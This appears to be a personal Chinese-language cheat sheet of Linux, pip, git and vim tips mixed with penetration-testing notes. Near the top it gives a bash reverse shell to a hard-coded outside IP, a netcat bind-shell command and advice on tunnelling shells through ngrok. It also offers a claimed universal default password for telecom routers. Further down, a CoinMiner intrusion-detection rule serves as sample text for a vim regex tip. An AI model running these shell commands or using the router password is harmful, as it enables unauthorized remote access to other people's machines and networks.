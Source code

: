 ### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置


### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S

### Github push代码到仓库，卡在WriteObjects不动

一般是有大文件

git config --global http.postBuffer 524288000



# 删除空文件夹

 	find -type d -empty|xargs -n 1 rm -rf

# 当前文件夹名字输出到文件

	ls > ../cve.txt


# vim 分割替换文本

	alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"TROJAN CoinMiner Known Malicious Stratum Authline (2017-09-20 9)"; flow:established,to_server; content:"|22|id|22 3A|"; content:"|22|method|22 3a|"; pcre:"/(?:\x22mining\.authorize\x22\x2c|\x22login\x22\x2c)/R"; content:"|22|params|22|"; within:50; pcre:"/(?:\x22login\x22\x3a\x22dashcain@protonmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22moringott26@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2247k5TbgFezTDNtJomYPgaDdk3dyQrHZvwYcnDSV6SnGCHGDP5UWMVFXFDBg25ekR5uTWjiETwQUukbQmmwDqAZ3A3aF4osR\x22\x2c\x22pass\x22\x3a\x2232\x22|\x22login\x22\x3a\x22alisher2606@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22super\.kapu2015@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22Sanya1995ua@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQnM2XjL7BeJ3umLDEe+w420\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2246s3552pauRKEovP5KuYrZLCCrxsVDHoscYbSAYaqhDyVneL7AgEhpeG3ionKZy3cHQA3RWHvVr3g3fbsLrN3T3mHbWPkNg+MoyuFirst\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS46fdUWD3ty8j16LNa\.103-208-220-133\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22butcherzz1337@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22)/R"; metadata: former_category MALWARE; reference:url,research.zscaler.com/2013/12/bitcoin-mining-operation-seen-across.html; reference:url,www.btcguild.com/new_protocol.php; reference:url,mining.bitcoin.cz/stratum-mining; reference:md5,b7759d56b5173157705bbb424bf27d71; classtype:trojan-activity; sid:2828019; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_09_20, malware_family CoinMiner, performance_impact Moderate, updated_at 2017_09_20;)

操作如下：

1. 将要提取的正则前的字符替换为空 ```.*pcre:"/(?```  ,  /g  表示全局

	:%s/.*pcre:"\/(?://g     

2. 将要提取的正则后的字符替换为空 ```)\/R";.*```

	:%s/)\/R";.*//g

3. 将 ```|``` 替换为 ```\r```

	:%s/|/\r/g

# linux 文本取差集

	sort a.txt b.txt b.txt | uniq -u

https://blog.csdn.net/yuanyuan95/article/details/88349289